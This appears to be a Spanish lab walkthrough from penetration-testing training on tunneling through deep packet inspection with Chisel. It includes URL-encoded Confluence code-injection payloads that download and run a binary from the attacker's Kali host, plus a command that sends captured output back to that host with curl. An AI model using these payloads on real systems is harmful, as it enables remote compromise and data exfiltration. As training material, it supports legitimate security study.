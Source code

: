 # Walk: Tunneling Through Deep Packet Inspection - HTTP Tunneling with Chisel - VM Group 1 

## Fecha: 30/03/2025
## Host: CONFLUENCE01
## IP: {IP}
## Objetivo
Start VM Group 1. Follow the steps in this section, and set up Chisel as a reverse SOCKS proxy. SSH into PGDATABASE01 and retrieve the flag from /tmp/chisel_flag.
## Herramientas
1. tool - 1
2. tool - 2
## Procedimiento y comandos
#### Paso 1: Configurar Servidor Chisel en kali
>Antes de iniciar el servidor, debemos copiar el binario del cliente Chisel a CONFLUENCE01. El servidor y el cliente Chisel se ejecutan desde el mismo binario; simplemente se inicializan con "server" o "client" como primer argumento
1. Levantamos un servidor, puede ser apache o python
- Alternativa python asuimendo que estemos en un directorio de trabajo
```
sudo cp $(which chisel) .
```
- Aternativa Apache
```
sudo cp $(which chisel) /var/www/html
```

#### Paso 2: Configurar Cliente Chisel en CONFLUENCE01
1. Creamos comando wget en CONFLUENCE01
```
wget {Kail_IP}/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```
2. Codificamos el comando:
```
curl http://CONFLUENCE01_IP:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20{KALI_IP}/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```

#### Paso 3: Iniciamos el servidor chisel desde kali
1. Ejecutamos servidor
```
chisel server --port 8080 --reverse
```
2. Registramos trafico con tcpdump
```
sudo tcpdump -nvvvXi tun0 tcp port 8080
```
#### Paso 4: Iniciamos el cliente chisel 
1. Creamos el comando que inyecta la inicializacion del cliente
```
/tmp/chisel client {Kali_Ip}:8080 R:socks > /dev/null 2>&1 &
```
2. Codificamos el comando:
```
curl http://{CONFLUENCE01:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20{kali_ip}:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
> No ocurre nada. No vemos tráfico en nuestra sesión Tcpdump y la salida del servidor Chisel no muestra actividad

## Troubleshooting
- Ejecución del cliente fallida
#### Solución
>Necesitamos encontrar una manera de leer la salida del comando, lo que podría indicarnos el problema. Así podremos resolverlo.

----------------------

1. Creamos el comando que nos diga la salida:

```
/tmp/chisel client {kali_ip]:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://{Confluence_ip}:8080/
```
2. Codificamos el comando:
```
curl http://{CONFLUENCE01_IP}:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20{KALI_IP}:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://{KALI_IP}:8080/%27%29.start%28%29%22%29%7D/
```
- Luego de ejecutar el comando la salida de tcpdump incluye la siguiente información:
```
/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
```
Chisel intenta usar las versiones 2.32 y 2.34 de glibc, que el servidor CONFLUENCE01 no tiene. Hemos encontrado un error al intentar ejecutar una carga útil en un sistema de destino. Por lo tanto, debemos encontrar una carga útil alternativa que se ejecute.

```
┌──(root㉿kali)-[/home/kali/]
└─# chisel -h                                                                                                       

  Usage: chisel [command] [--help]

  Version: 1.10.1-0kali1 (go1.23.2)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```
La versión de Chisel que viene con esta versión de Kali es la 1.10.1. Sin embargo, hay otro detalle importante: se ha compilado con la versión 1.23.2 de Go.

El error aparece cuando los binarios compilados con las versiones 1.20 y posteriores de Go se ejecutan en sistemas operativos que no tienen una versión compatible de **glibc**

>Podemos probar el binario Chisel 1.8.1 compilado con Go 1.19 para Linux en procesadores AMD64. Está disponible en el Github principal de Chisel

1. Descargamos el binario:
```
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

gunzip chisel_1.8.1_linux_amd64.gz

```
2. Sobre escribimos en Confluence el binario:
```
curl http://CONFLUENCE01:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20{KALI_IP}/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```
3. Iniciamoes el cliente:
```
curl http://CONFLUENCE01:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20{KALI_IP}:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
>Tanto en el servidor chisel kali como en tcpdump deberiamos poder ver el trafico correctamente.

4. Comprobamos el tunel:
```
ss -ntplu

Netid     State      Recv-Q     Send-Q           Local Address:Port            Peer Address:Port     Process
udp       UNCONN     0          0                      0.0.0.0:34877                0.0.0.0:*
tcp       LISTEN     0          4096                 127.0.0.1:1080                 0.0.0.0:*         users:(("chisel",pid=501221,fd=8))
tcp       LISTEN     0          4096                         *:8080                       *:*         users:(("chisel",pid=501221,fd=6))
tcp       LISTEN     0          511                          *:80                         *:*

```

#### Paso 5: Configuramos un reverse shell a traves del tunel
